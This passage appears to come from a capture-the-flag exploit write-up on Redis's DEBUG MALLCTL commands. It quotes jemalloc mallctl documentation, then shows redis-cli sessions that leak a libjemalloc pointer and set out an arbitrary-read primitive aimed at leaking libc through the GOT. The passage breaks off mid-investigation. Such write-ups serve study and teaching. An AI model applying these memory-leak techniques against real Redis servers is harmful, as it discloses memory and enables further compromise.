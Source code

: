 - `arenas.create` (unsigned, extent_hooks_t *) rw
    > Explicitly create a new arena outside the range of automatically managed arenas, with optionally specified extent hooks, and return the new arena index.
    > If the amount of space supplied for storing the arena index does not equal sizeof(unsigned), no arena will be created, no data will be written to the space pointed by oldp, and *oldlenp will be set to 0.

- `arenas.lookup` (unsigned, void*) rw
    > Index of the arena to which an allocation belongs to.

- `thread.prof.name` (const char *) r- or -w [--enable-prof]
    > Get/set the descriptive name associated with the calling thread in memory profile dumps. An internal copy of the name string is created, so the input string need not be maintained after this interface completes execution. The output string of this interface should be copied for non-ephemeral uses, because multiple implementation details can cause asynchronous string deallocation. Furthermore, each invocation of this interface can only read or write; simultaneous read/write is not supported due to string lifetime limitations. The name string must be nil-terminated and comprised only of characters in the sets recognized by isgraph(3) and isblank(3).

- `arena.<i>.dss` (const char *) rw
    > Set the precedence of dss allocation as related to mmap allocation for arena, or for all arenas if equals MALLCTL_ARENAS_ALL. See opt.dss for supported settings.

If we play around with the two functions in `redis-cli`, we immediately get interesting results:

```
127.0.0.1:6379> DEBUG MALLCTL arena.0.extent_hooks
(integer) 140527789771264
```

Easy -- we have a leak. `0x7fcf2cfd8a00`, which was in `libjemalloc`.
```
7fcf2cfd7000-7fcf2cfdc000 r--p 000b0000 00:36 19270196                   /usr/lib/x86_64-linux-gnu/libjemalloc.so.2
```

Some of these fields are supposed to be strings, and you can print them out as such:
```
127.0.0.1:6379> DEBUG MALLCTL-STR arena.0.dss
"secondary"
127.0.0.1:6379> DEBUG MALLCTL-STR thread.prof.name
""
```

Of note, you can get (and set!) each of the string/pointer options as an integer or as a string! This is very convenient, since we can input a pointer value and then read that back as a string (giving us arbitrary read).

We can read from the .got table in jemalloc and get a libc leak! The got table is at 0x3810 from the previous leak, so let's try that out.

```
127.0.0.1:6379> DEBUG MALLCTL thread.prof.name 140527789721616
(error) ERR Bad address
```
Hmm... didn't work. If we consult the jemalloc source, we'll find the [function](https://github.com/jemalloc/jemalloc/blob/dev/src/ctl.c#L2375) that handles setting this ctl calls `prof_thread_name_set`, which leads [here](https://github.com/jemalloc/jemalloc/blob/a0734fd6ee326cd2059edbe4bca7092988a63684/src/prof_data.c#L486):

